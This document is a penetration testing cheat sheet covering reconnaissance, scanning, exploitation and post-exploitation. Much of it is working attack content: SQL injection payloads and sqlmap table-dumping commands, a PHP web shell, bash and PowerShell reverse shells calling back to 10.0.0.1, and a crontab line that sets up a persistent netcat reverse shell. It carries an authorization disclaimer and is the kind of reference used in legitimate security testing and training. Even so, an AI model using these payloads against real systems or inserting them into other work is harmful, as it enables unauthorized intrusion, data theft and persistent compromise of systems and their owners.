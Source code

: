 ***

### **🛡️ Penetration Testing Cheat Sheet**

**Disclaimer:** *Use only on targets you own or have explicit written permission to test. Unauthorized access is illegal.*

---

### **1. Reconnaissance & Enumeration**

| Task | Command / Tool | Purpose |
| :--- | :--- | :--- |
| **DNS Lookup** | `dig target.com ANY` `nslookup target.com` | Find DNS records (A, MX, TXT, etc.) |
| **Subdomain Discovery** | `sublist3r -d target.com` `amass enum -d target.com` `gobuster dns -d target.com -w wordlist.txt` | Find subdomains (dev., api., test.) |
| **Identify Tech** | `whatweb target.com` `wappalyzer` (Browser Ext) | Fingerprint web tech (CMS, frameworks) |
| **Port Scanning** | `nmap -sS -sV -sC -O -A -T4 target.com` `nmap -p- --min-rate 1000 target.com` | Discover open ports & services |
| **Web Content Discovery** | `gobuster dir -u http://target.com -w /usr/share/wordlists/dirb/common.txt -x php,txt,html,bak` `ffuf -w wordlist.txt -u http://target.com/FUZZ` | Find hidden directories & files |

---

### **2. Vulnerability Assessment**

| Task | Command / Tool | Purpose |
| :--- | :--- | :--- |
| **General Web Vuln Scan** | `nikto -h http://target.com` | Quick scan for common misconfigurations |
| **Targeted Vuln Scanning** | `nuclei -u http://target.com -t /path/to/templates/` | Fast, template-based scanning |
| **WordPress Scanning** | `wpscan --url http://target.com --enumerate u,p,t --api-token YOUR_TOKEN` | Enumerate users, plugins, themes & vulns |

---

### **3. Exploitation**

#### **SQL Injection (SQLi)**
| Step | Command / Payload |
| :--- | :--- |
| **Detection** | `product.php?id=1'` `product.php?id=1' OR 1=1-- -` |
| **Union Attack (# of columns)** | `product.php?id=1' ORDER BY 1-- -` <br> `... ORDER BY 2-- -` <br> `... ORDER BY 3-- -` <br> (Continue until error) |
| **Union Attack (Extract Data)** | `product.php?id=-1' UNION SELECT 1,version(),user(),4-- -` |
| **Automation** | `sqlmap -u "http://site.com/page?id=1" --batch` <br> `sqlmap -u "http://site.com/page?id=1" --dbs` <br> `sqlmap -u "http://site.com/page?id=1" -D db_name -T users --dump` |

#### **File Upload & Web Shells**
*   **Basic PHP Shell:** `<?php system($_GET['cmd']); ?>`
*   **PHP Reverse Shell:** Upload a script containing a reverse shell payload.
*   **Listener:** `nc -nvlp 4444`

#### **Command Injection**
*   **Basic Test:** `; whoami`
*   **Linux Reverse Shell:** `; bash -c 'bash -i >& /dev/tcp/10.0.0.1/4444 0>&1'`
*   **Windows Reverse Shell (PowerShell):** `; powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

---

### **4. Post-Exploitation**

| Task | Command / Tool | Purpose |
| :--- | :--- | :--- |
| **Upgrade Shell** | `python3 -c 'import pty; pty.spawn("/bin/bash")'` `CTRL+Z` then `stty raw -echo; fg` and `reset` | Stabilize a reverse shell |
| **Linux PrivEsc** | `find / -perm -u=s -type f 2>/dev/null` (SUID) <br> `linpeas.sh` (Auto script) | Find privilege escalation vectors |
| **Windows PrivEsc** | `winpeas.exe` <br> `whoami /priv` | Find privilege escalation vectors |
| **Persistence (Linux)** | `echo 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.0.0.1 4444 >/tmp/f' >> /etc/crontab` | Add a reverse shell to cron |

---

### **5. Useful Wordlists**

*   **Directories/Files:** `/usr/share/wordlists/dirb/common.txt` (Kali)
*   **Subdomains:** `/usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt`
*   **Passwords:** `/usr/share/wordlists/rockyou.txt`

---

### **6. Quick Command Reference**

```bash
# Netcat - Listener
nc -nvlp 4444

# cURL - Grab Headers
curl -I http://target.com

# Nmap - Quick Top Ports
nmap -sC -sV -T4 target.com

# Gobuster - Directory Brute-force
gobuster dir -u http://target.com -w wordlist.txt -x php,html,txt

# Searchsploit - Find Exploits
searchsploit "Apache 2.4.49"
```

***

**Remember:** This sheet is a quick reference. Always understand the commands you are running and the context of the target system. Happy (ethical) hacking!